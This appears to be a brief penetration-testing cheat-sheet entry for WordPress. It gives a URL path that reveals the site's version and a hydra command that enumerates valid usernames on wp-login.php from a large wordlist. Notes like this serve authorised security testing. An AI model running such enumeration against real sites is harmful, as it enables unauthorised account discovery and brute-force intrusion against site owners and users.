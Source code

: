 # Wordpress
## Find version
/wp-links-opml.php

## Enumerate valid users
```bash
hydra -L /opt/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p voidpass target  
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2  
Fwp-admin%2F&testcookie=1:S=The password"
```
